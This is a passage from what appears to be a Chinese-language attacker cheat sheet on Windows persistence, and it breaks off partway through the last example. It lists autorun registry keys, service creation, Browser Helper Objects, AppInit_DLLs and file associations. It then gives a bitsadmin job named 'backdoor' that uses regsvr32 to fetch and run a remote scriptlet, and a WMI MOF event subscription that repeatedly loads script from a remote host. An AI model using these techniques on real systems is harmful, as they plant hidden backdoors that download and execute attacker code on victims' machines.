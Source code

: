 ```ABAP
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

##### 7、Services

创建服务

```
sc create [ServerName] binPath= BinaryPathName
```

##### 8、Browser Helper Objects

本质上是Internet Explorer启动时加载的DLL模块

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects
```

##### 9、AppInit_DLLs

加载User32.dll会加载的DLL

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
```

##### 10、文件关联

```
HKEY_LOCAL_MACHINE\Software\Classes
HKEY_CLASSES_ROOT
```

##### 11、[bitsadmin](http://www.liuhaihua.cn/archives/357579.html)

```ABAP
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec% %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://host.com/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

##### 12、[mof](https://evi1cg.me/archives/Powershell_MOF_Backdoor.html)

```ABAP
pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP1";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 1";
QueryLanguage = "WQL";
}; 
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consP1";
ScriptingEngine = "JScript";
ScriptText = "GetObject(\"script:https://host.com/test\")";
}; 
instance of __FilterToConsumerBinding
{
```